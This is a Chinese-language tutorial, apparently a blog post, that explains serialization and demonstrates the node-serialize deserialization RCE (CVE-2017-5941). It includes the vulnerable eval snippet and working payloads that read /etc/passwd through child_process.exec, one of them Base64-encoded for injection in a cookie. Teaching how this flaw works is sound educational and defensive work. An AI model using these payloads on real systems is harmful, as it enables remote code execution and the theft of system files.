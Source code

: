 在过去的几年中，通过网络进行的序列化/反序列化攻击变得越来越流行。我们在BlackHat上看到了许多不同的讨
论，发现Jenkins和Apache Struts2等常见应用程序中的关键漏洞，并且正在开发像ysoserial这样工具的大量
活跃研究。那么反序列化攻击有什么厉害之处呢？



## 什么是序列化与反序列化

[**原文链接**](https://www.huaweicloud.com/articles/d220bfed560c2750630007368a443633.html)

序列化是指把对象转换为字节序列的过程，而反序列化是指把字节序列恢复为对象的过程，序列化和反序列化便于跨平台存储和网络传输：

- **序列化：**对象序列化的最主要的用处就是在传递和保存对象的时候，保证对象的完整性和可传递性。序列化是把对象转换成有序字节流，以便在网络上传输或者保存在本地文件中。核心作用是对象状态的保存与重建。
- **反序列化：**客户端从文件中或网络上获得序列化后的对象字节流，根据字节流中所保存的对象状态及描述信息，通过反序列化重建对象。



## 为什么需要序列化与反序列化？

**一：对象序列化可以实现分布式对象。**

主要应用例如：RMI（即远程调用，Remote Method Invocation）要利用对象序列化运行远程主机上的服务，就像在本地机上运行对象时一样。

**二：序列化不仅保留一个对象的数据，而且递归保存对象引用的每个对象的数据。**

可以将整个对象层次写入字节流中，可以保存在文件中或在网络连接上传递。利用对象序列化可以进行对象的**"深复制"，即复制对象本身及引用的对象本身**。序列化一个对象可能得到整个对象序列。

**三：序列化可以将内存中的类写入文件或数据库中。**

比如：将某个类序列化后存为文件，下次读取时只需将文件中的数据反序列化就可以将原先的类还原到内存中。也可以将类序列化为流数据进行传输。

总的来说就是将一个已经实例化的类转成文件存储，下次需要实例化的时候只要反序列化即可将类实例化到内存中并保留序列化时类中的所有变量和状态。

**四：对象、文件、数据，有许多不同的格式，很难统一传输和保存。**

序列化以后就都是字节流了，无论原来是什么东西，都能变成一样的东西，就可以进行通用的格式传输或保存，传输结束以后，要再次使用，就进行反序列化还原，这样对象还是对象，文件还是文件。



## 反序列化漏洞

### [代码样例](https://github.com/luin/serialize/search?utf8=%E2%9C%93&q=eval&type)

```
        } else if(typeof obj[key] === 'string') {
          if(obj[key].indexOf(FUNCFLAG) === 0) {
            obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
```

构造序列化的payload，它将被反序列化。

```
{“thp”:“_$$ND_FUNC$$_function (){require(‘child_process’).exec(‘DO SYSTEM COMMANDS HERE’,
function(error, stdout, stderr) { console.log(stdout) });}()”}
```

上面序列化对象将通过类似于以下的请求方式`(){require('child_process').exec('ls')}`，进入unserialize函数中的eval语句，为我们提供远程代码执行。

> **立即调用函数表达式**
>
> 立即调用的函数表达式可以用多种不同的方式编写。一个[常见的约定](https://en.wikipedia.org/wiki/Coding_conventions)是将函数表达式 - 以及可选的调用运算符 - 用分组运算符括在括号中，以明确告诉解析器期待一个表达式。否则，在大多数情况下，当解析器遇到`function`关键字时，它会将其视为函数声明（语句），而不是函数表达式。
>
> ```
> ( function  ()  {  /* ... */  })(); 
> ( function  ()  {  /* ... */  }()); 
> (()  =>  {  /* ... */  })();  // 使用 ES6 箭头函数（尽管括号只允许在外部使用）
> ```
>
> There are other ways to enforce a function expression:
>
> ```
> !function () { /* ... */ }();
> ~function () { /* ... */ }();
> -function () { /* ... */ }();
> +function () { /* ... */ }();
> void function () { /* ... */ }();
> ```
>
> In contexts where an expression is expected, wrapping in parentheses is not necessary:
>
> ```
> var f = function () { /* ... */ }();
> true && function () { /* ... */ }();
> 0, function () { /* ... */ }();
> ```
>
> Passing variables into the scope is done as follows:
>
> ```
> (function(a, b) { /* ... */ })("hello", "world");
> ```
>
> ```
> a = b + c
> ;(function () {
>   // code
> })();
> ```
>
> 参考链接1：https://en.wikipedia.org/wiki/Immediately_invoked_function_expression
>
> 参考链接2：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941

### 漏洞演示

对该网页抓包分析，获取到cookie，拿到cookie做进一步的分析

```
donotdecodeme=eyJtb2R1bGUiOiJub2RlLXNlcmlhbGl6ZSJ9
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830140855.png)

对其进行Base64解码之后，可以大胆猜测后台是使用了`node-serialize`的序列化组件，根据上面的代码示例，我们再次猜测其存在漏洞。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830141153.png)

#### 创建payload

```
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

由于cookie是被编码的，那么我们的payload也需要进行Base64编码，编码后去查看结果，果然我们的命令已经是成功执行了。

```
eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY2F0IC9ldGMvcGFzc3dkJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830143745.png)

在该示例中，我们利用了函数表达式来远程执行命令，虽然我们没有直接看到该结果，但是既然能执行命令，那么我们完全可以将执行命令的结果保存成文本并发送到我们可以登录的服务器上。

参考链接：[JAVA反序列化漏洞完整过程分析与调试](https://wooyun.js.org/drops/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AE%8C%E6%95%B4%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90%E4%B8%8E%E8%B0%83%E8%AF%95.html)

